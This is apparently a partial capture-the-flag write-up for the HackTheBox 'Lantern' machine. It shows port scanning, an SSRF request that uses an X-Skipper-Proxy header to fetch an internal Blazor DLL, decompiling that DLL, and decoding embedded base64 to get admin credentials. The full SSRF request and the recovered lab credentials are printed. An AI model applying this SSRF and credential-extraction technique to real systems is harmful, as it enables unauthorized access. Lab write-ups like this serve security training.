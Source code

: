 # Lantern.htb

HackTheBox | Medium | Week 3 | Season 6 

## Recon

### Scanning and Enumeration

#### Rustscan 

```bash
rustscan -a 10.129.94.69 
```
![alt text](image.png)

Rustscan found three open ports SSH, HTTP and 3000.

http://lantern.htb seems like an IT company where we can upload a resume in http://lantern.htb/vacancies

- http://lantern.htb:3000 has some king of lanternLogin page.
![alt text](image-1.png)

- Tried injecting RCE embedded in PDF to get a shell but failed.
- seems like I need to focus on port 3000.

Found these endpoints while browsing console log of http://lantern.htb:3000

```js
<script src="_framework/blazor.server.js"></script>
```

```txt
Information: WebSocket connected to ws://lantern.htb:3000/_blazor?id=zuxDM5hIB0lArsgccqNQkw.
```
#### Burp Extension
- After Googling about Blazor exploits i found this Burpsuite Extension
```html
https://www.aon.com/cyber-solutions/aon_cyber_labs/new_burp_suite_extension_blazortrafficprocessor/
```

Took a hint from official HackTheBox discussion thread
- SSRF on port 80
- on GET /_framework/blazor.boot.json are all blazor dlls,
via /_framework/InternaLantern.dll you can download them

seems to be blazor .Net decompiling again
```
https://www.exploit-db.com/raw/51111
```
- putting the hint on burp and intercepting the response
```
GET /_framework/InternaLantern.dll HTTP/1.1
Host: lantern.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
X-Skipper-Proxy: http://127.0.0.1:5000
Referer: http://lantern.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: keep-alive
```

The ssrf works, download the dll file by requesting response in browser

After Downloading the DLL file in your machine browse it using Jetbrains DotPeek

![image](https://github.com/user-attachments/assets/f60f42b1-d082-425b-a254-e82e586258d1)

Here in "InternaLanding.Pages/Internal" you will find base64 encoded employee details, convert it into text using [CyberChef](https://gchq.github.io/CyberChef)  

```base64
"U3lzdGVtIGFkbWluaXN0cmF0b3IsIEZpcnN0IGRheTogMjEvMS8yMDI0LCBJbml0aWFsIGNyZWRlbnRpYWxzIGFkbWluOkFKYkZBX1FAOTI1cDlhcCMyMi4gQXNrIHRvIGNoYW5nZSBhZnRlciBmaXJzdCBsb2dpbiE="
```

After decoding

```txt
System administrator, First day: 21/1/2024, Initial credentials admin:AJbFA_Q@925p9ap#22. Ask to change after first login!
```
- Got the credentials
```
admin:AJbFA_Q@925p9ap#22.
```


